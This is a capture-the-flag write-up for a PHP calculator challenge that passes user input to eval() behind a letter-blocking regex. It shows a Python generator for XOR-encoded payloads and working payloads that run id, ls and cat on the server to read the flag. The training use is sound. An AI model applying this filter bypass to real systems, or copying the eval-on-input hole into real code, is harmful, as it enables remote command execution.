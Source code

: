 # Challenge Name: Warmup


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  


## Description

Just another Warmup challenge to test your skills :)

[https://ideh-warmup1.chals.io](https://ideh-warmup1.chals.io/)

**Author** : c3p0d4y

## Detailed solution 

We have a calculator app 

![image](https://user-images.githubusercontent.com/72421091/221652421-55201441-512c-4a2a-a988-302d88bb391d.png)

Let's check the source code [source.zip](source.zip)

```php
        <?php
                if(isset($_POST['submit'])){
                        $expression = $_POST['expression'];

                        if(preg_match("/[A-Za-z`]+/", $expression)){
                                echo "Error: Invalid input";
                        }
                        else{
                                $result = eval("return ".$expression.";");
                                if($result === false){
                                        echo "Error: Invalid expression";
                                }
                                else{
                                        echo "Result: ".$result;
                                }
                        }
                }
        ?>
```

Our input is controlled by a preg_match with a regex [A-Za-z`]

As we can seem, our input ($expression) is being used in eval function

We need bypass the preg_match regex and try to inject data to perform command execuction

There is a known technique with **xor** to generate alphabets from no alphabetic characters, For example : 

```
echo ('3'^'@'); => s
```

For code execution, we need to put our payload in a format that can be executed

```
echo ("system(whoami)"); => print the string "system(whoami)"
echo ("system")("whoami"); => execute system(whoami)
```

So now, we need a code for : 

- finding two characters (no A-Z a-z ') that can be xored and give us the character needed for our payload
- put the payload in a format ("system")("whoami")

```python
chars = "0123456789!#$%&'()*+,-./:;<=>?@[]^_{|}.~" # no A-Za-z " \ ~

def xor(code):
    xor_code = ""
    for i in code:
        for j in chars:
            bypass_code = False
            for k in chars:
                if ord(j) ^ ord(k) == ord(i):
                    xor_code += f".('{j}'^'{k}')"
                    bypass_code = True
                if bypass_code:
                    break
            if bypass_code:
                break
        if not bypass_code:
            xor_code += f".'{i}'"
    xor_code = f"({xor_code[1:]})"
    return xor_code

print(xor("system")+xor("id"))
```

The output for ("system")("id")

```
(('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('0'^']'))(('2'^'[').('9'^']'))
```

Check the payload with our app 

As we can see, we have the output for `id` command. We are the www-data user 

Now let's generate a payload for listing files `("system")("ls -la")`  

```
(('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('0'^']'))(('1'^']').('3'^'@').('['^'{').'-'.('1'^']').('!'^'@'))
```

![image](https://user-images.githubusercontent.com/72421091/221719510-af6fe61b-a8d3-43e2-93ba-55232d4b2d42.png)  

We have a listing for files 

```
        total 28
drwxrwxrwx 1 www-data www-data 4096 Feb 25 15:23 .
drwxr-xr-x 1 root     root     4096 Nov 15 04:13 ..
-rw-rw-r-- 1 root     root       82 Feb 25 15:21 Dockerfile
-rw-rw-r-- 1 root     root     1341 Feb 23 14:07 index.php
-rw-rw-r-- 1 root     root     4324 Feb 23 13:55 style.css
-rw-rw-r-- 1 root     root       33 Feb 21 10:29 warMup_pHp_cH4113n9e_1d3h23
Result: -rw-rw-r-- 1 root     root       33 Feb 21 10:29 warMup_pHp_cH4113n9e_1d3h23
```

Now we need to read the flag file `warMup_pHp_cH4113n9e_1d3h23`   

`("system")("cat warMup_pHp_cH4113n9e_1d3h23")` 

```
(('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('0'^']'))(('8'^'[').('!'^'@').('4'^'@').('['^'{').('7'^'@').('!'^'@').('2'^'@').('0'^'}').('5'^'@').('0'^'@').('!'^'~').('0'^'@').('3'^'{').('0'^'@').('!'^'~').('8'^'[').('3'^'{').'4'.'1'.'1'.'3'.('0'^'^').'9'.('8'^']').('!'^'~').'1'.('9'^']').'3'.('3'^'[').'2'.'3')
```

We got our flag 

![image](https://user-images.githubusercontent.com/72421091/221719855-6a49db59-9cd8-4b5d-9fd4-58f02e96f4d7.png)

## Flag

```
IDEH{warMup_pHp_cH4113n9e_1d3h23}
```
